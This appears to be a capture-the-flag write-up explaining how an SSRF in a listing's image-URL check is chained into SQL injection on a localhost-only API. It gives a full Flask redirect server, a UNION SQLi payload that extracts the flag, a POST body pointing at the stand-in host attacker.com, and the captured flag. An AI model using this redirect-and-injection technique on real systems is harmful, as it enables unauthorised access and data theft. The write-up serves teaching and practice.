 # SSRF to SQL injection

When you create a new listing, give it an image url that you control, that redirects the server to http://127.0.0.1:5000/api/users?username=

This is because the api routes in the code are whitelisted with @localhost_only
It also looks for the Content-Type header to make sure it contains the word 'image'
The username parameter is vuln to SQLi

Example of malicious flask server:

from flask import Flask, redirect, Response

app = Flask(__name__)

@app.route('/redirect.png')
def redirect_to_internal():
    response = Response()
    response.headers['Content-Type'] = 'image'
    response.headers['Location'] = 'http://127.0.0.1:5000/api/users?username=%27%20OR%201=1%20UNION%20SELECT%20NULL,flag,NULL%20FROM%20flag%20limit%201%20%2d%2d%2d'
    response.status_code = 302
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

## exploiting
SQLi payload url-decoded:
' OR 1=1 UNION SELECT NULL,flag,NULL FROM flag limit 1 ---

POST to /create with your malicious image url
name=test123&description=test123&image_url=http%3A%2F%2Fattacker.com%3A8000%2Fredirect.png

Then you should get an error that looks like:
Invalid image URL. Please provide a valid image URL. Response was: [ { "id": null, "username": "SIVUSCG{whoopsies_SSRF_here!}" } ]
